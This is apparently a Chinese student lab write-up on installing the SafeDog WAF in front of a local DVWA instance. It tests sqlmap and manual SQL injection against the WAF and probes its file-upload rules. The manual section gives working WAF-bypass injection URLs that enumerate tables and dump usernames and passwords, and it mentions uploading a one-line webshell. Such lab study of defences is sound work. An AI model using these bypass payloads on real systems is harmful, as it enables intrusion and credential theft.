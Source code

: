 ## 作业1 
### WAF安装与配置
- 安装phpstudy
  - 讲DVWA的源码包拖入网站根目录中
  - 修改DVWA/config/config.inc.php 配置文件
  ![Alt text](images/image32.png)
  - 修改DVWA/php 配置文件
  ![Alt text](images/image33.png)
  - 以系统服务模式运行phpstudy，版本是php7.3.4，同步启动Apache服务
  - 系统初始化后使用SQL_Front工具修改dvwa库下两个表的字符集校对为utf8_general.ci，防止后续出现乱码
  ![Alt text](images/image34.png)
  - 安装好后从首页打开SQL_Front
  ![Alt text](images/image35.png)
  - 进入后讲dvwa下的user和guestbook两个表 -> 右键属性 -> 更改字符集

- 安装安全狗
  - 首先查看本地服务，看其中是否有apache服务
    - 搜索win -> service -> 查看本地服务
  ![Alt text](images/image36.png)
    - 如果没有，暂停phpstudy上的服务
    - 进入网站根目录上一级，进入phpstudy_pro/Extensions/Apache2.4.39/bin
    - 复制上述路径，使用管理员身份打开命令行
    - cd 上述路径，在命令行中进入该路径
  ```
  执行.\httpd.exe -k install -n apache2.4.39
  ```
  ![Alt text](images/image37.png)
  - 出现上述情况，执行成功
  - 重新进入service，并启动apache服务
  - 打开安全狗安装包，安装安全狗
  - 安装运行后，在dvwa网站测试
  ![Alt text](images/image38.png)
  ![Alt text](images/image39.png)
  - 部署成功
## 作业2
### 无WAF下，SQLMAP注入
- 4种注入方式均能成功
![Alt text](image.png)


### 有WAF下，SQLMAP注入
- 只有报错注入和布尔盲注成功
![Alt text](image-1.png)


### 有WAF下，DVWA手工注入
- 首先判断字段数量(使用group by分组查询代替order by)
```
1' group by 1#    成功查询

1' group by 2#    成功查询

1' group by 3#    查询失败，证明字段数为2
```

- 判断库名(使用hackbar)
```
http://192.168.0.106/DVWA/vulnerabilities/sqli/?id=
1' regexp "%0A%23" /*!11144union %0A all select*/database(%0A /*!11144*/), 2--+
&Submit=Submit#
```
![Alt text](image-2.png)

- 判断表名
```
http://192.168.0.106/DVWA/vulnerabilities/sqli/?id=-1%27%20UNION%20/*!--%20/*%0aselect/*!1,*/%20GROUP_CONCAT(TABLE_NAME)%20FROM%20/*!--%20/*%0ainformation_schema.tables%20WHERE%20/*!table_schema%20=%20%27dvwa%27*/--+&Submit=Submit#
```
![Alt text](image-3.png)
- 判断字段名
```
http://192.168.0.106/DVWA/vulnerabilities/sqli/?id=-1%27%20UNION%20/*!--%20/*%0aselect/*!1,*/%20GROUP_CONCAT(COLUMN_NAME)%20FROM%20/*!--%20/*%0ainformation_schema.COLUMNS%20WHERE%20/*!table_name%20=%20%27users%27*/--+&Submit=Submit#
```
![Alt text](image-5.png)

- 注数据
```
http://192.168.0.106/DVWA/vulnerabilities/sqli/?id=-1' union /*!--+/*%0aselect/*!1,*/ /*!--+/*%0aconcat(user,0x7e,password) /*!from*/ users--+&Submit=Submit#
```
![Alt text](image-6.png)


## 作业3
- 判断安全狗对于上传文件的检测规则，并给出推到过程
  - 根据文件后缀名进行检测
    - 准备两个相同内容的文件：info.php和info.txt
    ![Alt text](image-7.png)
    ![Alt text](image-8.png)
    - 证明文件后缀名是检测规则之一
  - 根据文件类型（content-type）进行检测
    - 上传info2.txt，并抓包更改文件类型使其与info.php一致
    ![Alt text](image-9.png)
    - 上传成功
    ![Alt text](image-10.png)
    - 证明文件类型并不是waf的检测规则
  - 根据文件内容进行检测
    - 分别上传两个txt文件，一个里面放入数字文本，一个放入一句话木马
    - 都能上传成功
    ![Alt text](image-11.png)
    ![Alt text](image-12.png)
    - 所以文件内容也不是检测规则

- 总结：WAF对于文本文件是基于文件后缀名进行检测
  - 对于非文本文件，也有可能基于内容进行检测